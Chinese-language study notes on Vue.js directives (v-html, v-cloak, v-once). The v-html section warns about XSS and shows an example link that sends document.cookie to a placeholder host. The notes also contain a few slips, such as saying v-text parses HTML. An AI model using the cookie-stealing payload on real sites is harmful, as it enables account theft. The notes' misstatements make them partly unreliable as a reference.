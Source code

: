 

#### <span style='color:hotpink'>v-html指令</span>

- 作用：向指定节点中渲染包含html结构的内容
- 与插值语法区别：`v-text`会替换掉节点中的内容，并解析html标签
- 引用的<span style='color:hotpink'>值必须写在data的配置项中</span>，否则报错且不解析

```vue
<div v-html="str"></div>
<script>
    new Vue({
        el:"#one",
        data:{
            str:"<a href=javascript:location.href='http://xxx.com'+document.cookie>点我</a>";
        }
    })
</script>
```



##### v-html安全问题

- 用户一旦输入可解析的标签,会影响体验
- 在网站上动态渲染任意html是危险行为，容易导致XSS攻击(冒充用户之手)
- 坏人:使用a链接并携带当前网站的Cookie,将导致Cookit泄露,被盗号....
  - 例子：<span style='color:hotpink'>`<a href=javascript:location.href="http.xxx.com?"+document.cookie>我是非法链接</a>`</span>
- 永远不要相信用户的输入,不要在用户提交的数据上使用





#### v-cloak指令(没有值)

- 本质：一个特殊的属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性
- 使用css配合v-cloak 可以<span style='color:hotpink'>解决网速慢时页面显示未经解析过的页面</span>的问题
- **使用脚手架开发时，vue源码会被一起打包，因此不存在vue加载问题，没有实际用途**

```vue
<style>
    /* 属性选择器，选择所有包含v-cloak属性的标签*/
    /* 当对应节点被vue解析后，自动去掉v-cloak属性 */
    [v-cloak] {
        display:none;
    }
</style>
<div v-cloak>{{name}}</div>    //当该标签未经过vue解析时，不会出现在页面上
```





#### v-once指令(没有值)

- `v-once`所在的节点在<span style='color:hotpink'>初次动态渲染</span>后，就视为静态内容
- 以后数据的改变不会引起`v-once`所在结构的更新，可<span style='color:hotpink'>用于优化性能</span>
- 与事件修饰符的`.once`不同，`.once`表示事件只触发一次
- 在实际项目中不常用，不仅易于维护，且在性能提升方面效果甚微
